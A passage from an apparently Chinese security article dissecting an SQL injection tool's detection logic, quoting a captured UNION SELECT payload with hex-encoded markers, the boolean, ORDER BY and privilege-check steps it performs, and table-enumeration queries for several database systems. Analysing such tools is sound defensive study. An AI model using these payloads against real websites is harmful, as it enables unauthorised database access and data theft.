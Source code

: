 ```
SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d)--

```

![enter image description here](http://drops.javaweb.org/uploads/images/de20629d25320300edf467a816d37dd9d5241b1f.jpg)

/*[h4ckinger]asim[/h4ckinger] 这段SQL看不出来有什么实际意义，没有对数据库进行任何操作。对应的SQL是：

```
select concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d)*/

```

没用的东西不管下一条也是点击start后的最后一条SQL同上。 那么我们可以知道点击注入点检测程序一共做了：

```
1、是否存在注入点
2、注入点的字段数量
3、注入点获取Mysql的版本信息、用户信息、数据库名等。
4、是否有file_priv也就是是否能够读写硬盘文件。

```

程序逻辑分析：

```
1、获取URL是否存在
2、获取URL地址并进行参数分析
3、提交and 1=1 and 1=2进行布尔判断，获取服务器的响应码判断是否存在SQL注入。
4、提交占位符获取注入点查询的字段数尝试order by 注入。
5、提交MYSQL自带的函数获取MYSQL版本信息、用户信息、数据库名等信息。
6、检测是否有load_file和outfile、dumpfile等权限。

```

SQL注入之获取所有用户表：

```
1、Mssql:select name from master.dbo.sysdatabase
2、Mysql:show databases
3、Sybase:SELECT a.name,b.colid,b.name,c.name,b.usertype,b.length,CASE WHEN b.status=0 THEN 'NOT NULL' WHEN b.status=8 THEN 'NULL' END status, d.text FROM sysobjects a,syscolumns b,systypes c,syscomments d WHERE a.id=b.id AND b.usertype=c.usertype AND a.type='U' --AND a.name='t_user' AND b.cdefault*=d.id ORDER BY a.name,b.colid
4、Oracle:SELECT * FROM ALL_TABLES

```
